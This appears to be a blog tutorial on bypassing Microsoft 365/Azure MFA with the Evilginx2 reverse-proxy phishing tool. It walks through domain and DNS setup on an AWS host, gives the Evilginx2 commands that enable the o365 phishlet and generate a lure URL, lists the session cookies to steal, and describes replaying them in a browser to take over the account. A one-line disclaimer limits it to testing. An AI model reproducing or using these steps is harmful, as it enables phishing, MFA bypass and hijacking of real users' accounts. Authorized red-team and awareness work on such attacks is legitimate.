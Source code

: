 ```yaml
---
description: >-
  In that blog I will try to explain which implementation that I have done in
  order to bypass MFA in Azure.
---
```


# Bypassing MFA with Evilginx2

### Take a domain name in Freenom.&#x20;

[freenom.com ](https://freenom.com)is giving you great opportunity to take free domain names so just a grab one there.&#x20;

After taking a domain name. You need to create EC2 instance in your AWS accoount. Of course you can use some virtual private server provider or some hosting provider but for me it was easy to configure that in AWS.&#x20;

I have configured AWS ubuntu in my account.&#x20;

And uploaded to there evilginx2 phishing tool. For evilginx2 tool worked properly you should configure DNS records there, without configuring these records it will be hard to get tokens of your victims.&#x20;

As the first step you need to install go in your instance.&#x20;

```
apt install golang-go
go get -u github.com/kgretzky/evilginx2
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
make install
```

&#x20;Now you should not run evilginx because we didn't configure our DNS.&#x20;

Let's turn back to our freenom.com page and manage our domain.&#x20;

![](<../../.gitbook/assets/image (4).png>)



From that section go to DNS configuration place.&#x20;

![](<../../.gitbook/assets/image (5).png>)

Then Manage DNS section.&#x20;

![](../../.gitbook/assets/image.png)

Put there the subdomains that you want to use. Actually, it depends on which phishlets you will use. But in my case I have used o365 phishlet so, I have added to there `account` and `login`. &#x20;

And your EC2 instance public IP that you will use.&#x20;

After adding these we need to implement our nameserver glue records.&#x20;

![](<../../.gitbook/assets/image (3).png>)

From that section you need to put your domain name records.&#x20;

![](<../../.gitbook/assets/image (1).png>)



In my case, I have added my domain name record there and my public EC2 instance IP.&#x20;

yeah after that comes waiting part because changing these records to be implemented in the system takes time.&#x20;

After adding these sections go to your EC2 instance and connect via the terminal.&#x20;

Probably you will have problem with DNS, HTTPS, HTTP connections. So you need to be aware these are open to all IPs with your security groups.&#x20;

I have done some DNS implementations in my AWS EC2 instance. Maybe that will not work for you case but in case you will have a problem when you run evilginx. Like `Failed to conned port 53` . Here is the solution that worked for me.&#x20;

```
 sudo rm /etc/resolv.conf
 ln -s /run/systemd/resolve/resolv.conf /etc/resolv.conf
 
 systemctl stop systemd-resolved.service
```

in your /etc/hosts file add that section.&#x20;

```
internal-ip yourdomain.com
```

After these configurations run your evilginx with debug because I was not able to configure any phishlet to save tokens.&#x20;



run these commands for running evilginx in debug mode.&#x20;

```
evilginx -debug
```



in evilginx2 run these command,&#x20;

```
config domain yourdomain.com
config ip a.b.c.d

blacklist unauth

phishlets enable o365
lures create o365
lures edit #putIDthere redirect_url https://portal.azure.com
lures get-url #putIDthere

```

After getting the URL from evilginx open an incognito browser and test.&#x20;

In my case, evilginx was not able to save tokens of my victims(my account here). But in debug mode, I was able to see these tokens.&#x20;



For o365 phishlet, you need to sniff these tokens&#x20;

```
ESTSAUTHPERSISTENT
ESTSAUTH
ESTSAUTHLIGHT
SignInStateCookie
```

![](<../../.gitbook/assets/image (2).png>)



After taking these values go to your browser and with cookie editor extension change these while trying to login [https://www.office.com/?auth=2](https://www.office.com/?auth=2) and refresh the page.&#x20;

You are in.&#x20;

```
Please use it for testing purposes. 
```



